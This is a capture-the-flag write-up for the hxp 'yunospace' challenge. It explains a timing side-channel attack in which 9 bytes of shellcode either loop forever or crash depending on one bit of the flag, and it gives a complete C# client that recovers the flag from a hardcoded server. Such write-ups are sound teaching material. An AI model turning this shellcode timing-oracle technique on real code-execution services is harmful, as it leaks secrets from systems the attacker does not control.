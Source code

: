 # yunospace

When you connect to the service, the python wrapper reads a number number from you and passes the n-th char of the flag to the yunospace binary:

```python
#!/usr/bin/python3 -u

import sys, os, base64

FLAG = "hxp{find_the_flag_on_the_server_here}"

print(" y-u-no-sp                ")
print("XXXXXXXXx.a               ")
print("OOOOOOOOO|                ")
print("OOOOOOOOO| c              ")
print("OOOOOOOOO|                ")
print("OOOOOOOOO|                ")
print("OOOOOOOOO| e              ")
print("~~~~~~~|\~~~~~~~\o/~~~~~~~")
print("   }=:___'>             \n")

print("> Welcome. Which byte should we prepare for you today?")

try:
    n = int(sys.stdin.readline())
except:
    print("> I did not get what you mean, sorry.")
    sys.exit(-1)

if n >= len(FLAG):
    print("> That's beyond my capabilities. Goodbye.")
    sys.exit(-1)

print("> Ok. Now your shellcode, please.")

os.execve("./yunospace", ["./yunospace", FLAG[n]], dict())
```

The yunospace binary was small and simple: All it did was reading 9 bytes from stdin, writing the passed char behind the 9 read bytes, setting all registers to 0, and jumping there.

Since 9 bytes are (as far as we know) not enough to spawn a shell or to execute a write syscall with the appropriate parameters, we decided to use a side channel attack: Depending on the passed char our bytecode has to terminate (and a segfault is a termination), or loop forever. A quick test shows us that if the program segfaults the socket is closed after <2s, and if it loops the socket is closed after >2s.


An infinite loop depending on a flag takes up two bytes:
```
74 fe                   je     7 <loop> 
```
So we have 7 bytes remaining to set a flag depending on the 10th byte and the operation. `test` seems like the best idea (`test` performs a binary `AND` on two operands, and upates `ZF`), because we can identify the byte with 8 requests: By testing the unknown byte with 1 << x (for x in {0, .., 7}) we get a set zero flag if and only if the x-th bit of the byte is set to zero! :tada:

So the exploit is quite simple. Send these bytes, and observe whether the bits of X are set:
```
0:  f6 05 02 00 00 00 X    test   BYTE PTR [rip+0x2], X       # 9 <loop+0x2>
0000000000000007 <loop>:
7:  74 fe                   je     7 <loop> 
```

After experiencing problems with pwntools and closed sockets, I had enough and wrote our exploit in c#:
```c#
using System;
using System.Collections.Generic;
using System.Diagnostics;
using System.IO;
using System.Net;
using System.Net.Sockets;
using System.Text;
using System.Threading.Tasks;

namespace yunospace
{
    class Program
    {
        static void Main(string[] args)
        {
            Console.WriteLine("Hello World!");
            
            for (int i=0;i<100;i++)
            {
                char c = GetChar(i);
                Console.Write($"{c}");
                Console.Out.Flush();
                if (c == '}')
                {
                    break;
                }
            }
            Console.WriteLine("\ndone.");
            Console.ReadKey();
        }

        static char GetChar(int count)
        {
            var tasks = new List<Task<long>>();
            for (int i = 0; i < 8; i++)
            {
                var x = i;
                tasks.Add(Task.Run(async () =>
                {
                    return await Test(x, count);
                }));
            }
            byte b = 0;
            Task.WhenAll(tasks).Wait();
            for (int i = 0; i < tasks.Count; i++)
            {
                if (tasks[i].Result < 2000)
                    b |= (byte)(0x1 << i);
            }
            return (char)b;
        }

        static async Task<long> Test(int one, int count)
        {
            Stopwatch stopWatch = new Stopwatch();
            try
            {
                byte[] buf = new byte[4048];
                TcpClient client = new TcpClient("195.201.127.119", 8664);
                using (StreamReader sr = new StreamReader(client.GetStream()))
                {
                    await ReadOrThrow(sr);
                    await ReadOrThrow(sr);
                    await ReadOrThrow(sr);
                    await ReadOrThrow(sr);
                    await ReadOrThrow(sr);
                    await ReadOrThrow(sr);
                    await ReadOrThrow(sr);
                    await ReadOrThrow(sr);
                    await ReadOrThrow(sr);
                    await ReadOrThrow(sr);

                    client.GetStream().Write(Encoding.ASCII.GetBytes($"{count}\n"));
                    await ReadOrThrow(sr);

                    stopWatch.Start();
                    byte b = 0x01;
                    b <<= one;
                    client.GetStream().Write(new byte[] { 0xF6, 0x05, 0x02, 0x00, 0x00, 0x00, b, 0x74, 0xFE });
                    await ReadOrThrow(sr);
                    await ReadOrThrow(sr);
                    await ReadOrThrow(sr);
                    await ReadOrThrow(sr);
                }
            }
            catch (Exception e)
            {
            }
            stopWatch.Stop();
            return stopWatch.ElapsedMilliseconds;
        }

        static async Task ReadOrThrow(StreamReader sr)
        {
            var line =  await sr.ReadLineAsync();
            if (line == null)
                throw new IOException();
        }
    }
}
```
And indeed this exploit correctly yielded the flag `hxp{y0u_w0uldnt_b3l13v3_h0w_m4ny_3mulat0rs_g0t_th1s_wr0ng}`
